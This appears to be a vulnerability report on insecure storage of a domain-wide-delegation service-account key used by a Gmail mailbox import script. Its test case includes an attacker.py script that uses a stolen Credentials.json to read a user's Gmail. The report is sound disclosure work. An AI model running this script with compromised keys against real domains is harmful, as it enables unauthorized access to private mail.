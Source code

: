### Vulnerability 1: Insecure Storage of Service Account Private Key

- **Description:**
    1. The `import-mailbox-to-gmail.py` script requires a service account JSON private key file, specified using the `--json` parameter.
    2. This JSON file grants domain-wide delegation, allowing the script to access and modify Gmail data of all users in the Google Workspace domain.
    3. If this `Credentials.json` file is stored insecurely (e.g., in a publicly accessible directory, unencrypted on a shared file system, or committed to version control), an attacker can gain unauthorized access to it.
    4. Once the attacker obtains the `Credentials.json` file, they can use it to authenticate as the service account.
    5. By impersonating the service account, the attacker can bypass normal Gmail authentication and access the Gmail accounts of any user within the Google Workspace domain.
    6. The attacker can then read, modify, delete emails, and perform other actions as any user in the domain.

- **Impact:**
    - Complete compromise of the Google Workspace domain's Gmail accounts.
    - Unauthorized access to sensitive email data for all users in the domain.
    - Potential data breaches, compliance violations, and reputational damage for the organization.
    - Attackers can use compromised accounts for further malicious activities, such as sending phishing emails or spreading malware.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
    - Documentation in `README.md` provides a warning during service account creation: "**This JSON file contains a private key that potentially allows access to all users in your domain. Protect it like you'd protect your admin password. Don't share it with anyone.**"
    - This mitigation relies solely on the administrator reading and understanding the documentation and implementing secure storage practices independently.

- **Missing Mitigations:**
    - **Secure Storage Recommendations:** Lack of specific guidance or recommendations on secure storage practices for the `Credentials.json` file. This could include suggesting the use of:
        - Secrets management systems (e.g., HashiCorp Vault, Google Secret Manager).
        - Encrypted file systems or storage solutions.
        - Access control lists (ACLs) to restrict access to the file.
    - **Automated Security Checks:** The script does not include any automated checks to detect insecure storage of the `Credentials.json` file, such as:
        - Checking file permissions to ensure it's not world-readable.
        - Warning messages if the file is located in a common or insecure directory.
    - **Key Rotation/Revocation Guidance:** No instructions or tools are provided for rotating or revoking the service account key if it is suspected of being compromised.

- **Preconditions:**
    1. A Google Workspace administrator must have successfully created a service account and downloaded the `Credentials.json` file as per the instructions in `README.md`.
    2. The administrator must have stored the `Credentials.json` file in a location accessible to the attacker. This could be due to:
        - Misconfiguration of file permissions.
        - Storage on an insecure or shared system.
        - Accidental exposure through other vulnerabilities or misconfigurations.
        - Insider threat.

- **Source Code Analysis:**
    1. The `import-mailbox-to-gmail.py` script uses the `oauth2client.service_account.ServiceAccountCredentials.from_json_keyfile_name` function to load credentials from the JSON file specified by the `--json` argument:
    ```python
    def get_credentials(username):
      credentials = ServiceAccountCredentials.from_json_keyfile_name(
          args.json,
          scopes=SCOPES).create_delegated(username)
      return credentials
    ```
    2. The `args.json` variable, which holds the path to the JSON key file, is directly taken from user input via command-line arguments without any security checks related to file storage.
    3. The script's functionality relies on the assumption that the `Credentials.json` file is securely stored and accessible only to authorized users.
    4. There is no code within the script to enforce or verify secure storage of the private key file. The security solely depends on the user's operational environment and adherence to the warning in the documentation.

- **Security Test Case:**
    1. **Setup:**
        - Assume you are an external attacker and have gained access (e.g., through compromised credentials, or another vulnerability) to a system where a Google Workspace administrator has used the `import-mailbox-to-gmail.py` script.
        - Locate the `Credentials.json` file.  Assume for this test case, the administrator has mistakenly stored it in a publicly readable directory `/tmp/credentials.json`.
        - Copy the `/tmp/credentials.json` file to your attacker machine.
        - Install Python 2.7 and the required libraries: `google-api-python-client`, `PyOpenSSL`, `oauth2client` on your attacker machine.
    2. **Exploit Script (attacker.py):** Create a Python script named `attacker.py` on your attacker machine with the following content:
    ```python
    #!/usr/bin/env python
    import sys
    from apiclient import discovery
    import httplib2
    from oauth2client.service_account import ServiceAccountCredentials

    JSON_FILE_PATH = 'credentials.json' # Path to the copied Credentials.json
    SCOPES = ['https://www.googleapis.com/auth/gmail.readonly'] # Minimal scope for testing
    USER_EMAIL = 'test.user@yourdomain.com' # Replace with a valid user in the target domain

    def get_service():
      credentials = ServiceAccountCredentials.from_json_keyfile_name(
          JSON_FILE_PATH,
          scopes=SCOPES).create_delegated(USER_EMAIL)
      http = credentials.authorize(httplib2.Http())
      service = discovery.build('gmail', 'v1', http=http)
      return service

    if __name__ == '__main__':
      service = get_service()
      try:
        results = service.users().messages().list(userId=USER_EMAIL, maxResults=1).execute()
        messages = results.get('messages', [])
        if not messages:
          print "No messages found."
        else:
          print "Messages found:"
          for message in messages:
            print message['id']
        print "[+] Successfully accessed Gmail API using compromised service account key!"

      except Exception as e:
        print "[-] Error accessing Gmail API:"
        print e
        sys.exit(1)
    ```
        - Replace `'credentials.json'` in `JSON_FILE_PATH` with the actual path to where you saved the copied `Credentials.json` file on your attacker machine if it's not in the same directory.
        - Replace `'test.user@yourdomain.com'` with the email address of a test user in the target Google Workspace domain.
    3. **Run Exploit:** Execute the `attacker.py` script from your attacker machine:
    ```bash
    python attacker.py
    ```
    4. **Verification:**
        - If the script outputs `[+] Successfully accessed Gmail API using compromised service account key!` and lists a message ID, it confirms that you have successfully used the compromised `Credentials.json` file to access the Gmail account of the specified user in the target domain.
        - This demonstrates the vulnerability of insecurely storing the service account private key, allowing unauthorized access to the entire Google Workspace domain's Gmail data.
